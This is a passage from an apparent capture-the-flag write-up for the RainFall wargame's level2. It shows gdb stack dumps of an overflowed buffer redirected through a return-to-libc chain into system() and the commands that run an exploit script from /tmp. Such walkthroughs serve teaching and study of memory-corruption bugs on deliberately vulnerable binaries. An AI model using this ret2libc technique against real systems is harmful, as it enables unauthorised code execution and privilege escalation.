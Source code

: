 And in `gdb` its work:

	(gdb) x/3i $eip
		=> 0x80484f2 <p+30>:	mov    eax,DWORD PTR [ebp+0x4]
		0x80484f5 <p+33>:	mov    DWORD PTR [ebp-0xc],eax
		0x80484f8 <p+36>:	mov    eax,DWORD PTR [ebp-0xc]
	(gdb) x/80x $esp
		0xbffff670:	0xbffff68c	0x00000000	0x00000000	0xb7e5ec73
		0xbffff680:	0x080482b5	0x00000000	0x00c30000	0x41414141
		0xbffff690:	0x42424242	0x43434343	0x44444444	0x45454545
		0xbffff6a0:	0x46464646	0x47474747	0x48484848	0x49494949
		0xbffff6b0:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
		0xbffff6c0:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0x51515151
		0xbffff6d0:	0x52525252	0x53535353	0x54545454	**0x0804853e**
		0xbffff6e0:	**0xb7e6b060**	**0xb7e5ebe0**	**0xb7f8cc58**	0xb7e45400
		0xbffff6f0:	0x00000001	0xbffff784	0xbffff78c	0xb7fdc858
		0xbffff700:	0x00000000	0xbffff71c	0xbffff78c	0x00000000
		0xbffff710:	0x08048260	0xb7fd0ff4	0x00000000	0x00000000
		0xbffff720:	0x00000000	0xfcda27ff	0xcb9ee3ef	0x00000000
		0xbffff730:	0x00000000	0x00000000	0x00000001	0x08048420
		0xbffff740:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
		0xbffff750:	0x00000001	0x08048420	0x00000000	0x08048441
		0xbffff760:	0x0804853f	0x00000001	0xbffff784	0x08048550
		0xbffff770:	0x080485c0	0xb7fed280	0xbffff77c	0xb7fff918
		0xbffff780:	0x00000001	0xbffff8ad	0x00000000	0xbffff8c6

When we enter `system` function:

	(gdb) x/3i $eip
		=> 0xb7e6b060 <system>:	sub    esp,0x1c
		0xb7e6b063 <system+3>:	mov    DWORD PTR [esp+0x14],esi
		0xb7e6b067 <system+7>:	mov    esi,DWORD PTR [esp+0x20]
	(gdb) x/80x $esp
		0xbffff6e4:	**0xb7e5ebe0**	**0xb7f8cc58**	0xb7e45400	0x00000001
		0xbffff6f4:	0xbffff784	0xbffff78c	0xb7fdc858	0x00000000
		0xbffff704:	0xbffff71c	0xbffff78c	0x00000000	0x08048260
		0xbffff714:	0xb7fd0ff4	0x00000000	0x00000000	0x00000000
	Breakpoint 12, 0xb7e6b060 in system () from /lib/i386-linux-gnu/libc.so.6
		Stack level 0, frame at 0xbffff6e8:
		 eip = 0xb7e6b060 in system; saved eip **0xb7e5ebe0**
		 called by frame at 0x5454545c
		 Arglist at 0xbffff6e0, args:
		 Locals at 0xbffff6e0, Previous frame's sp is 0xbffff6e8
		 Saved registers:
		  eip at 0xbffff6e4

Main description is here: https://airman604.medium.com/protostar-stack7-walkthrough-2aa2428be3e0

# Result

	level2@RainFall:~$ vi /tmp/exploit.py
	level2@RainFall:~$ python /tmp/exploit.py > /tmp/2exp
	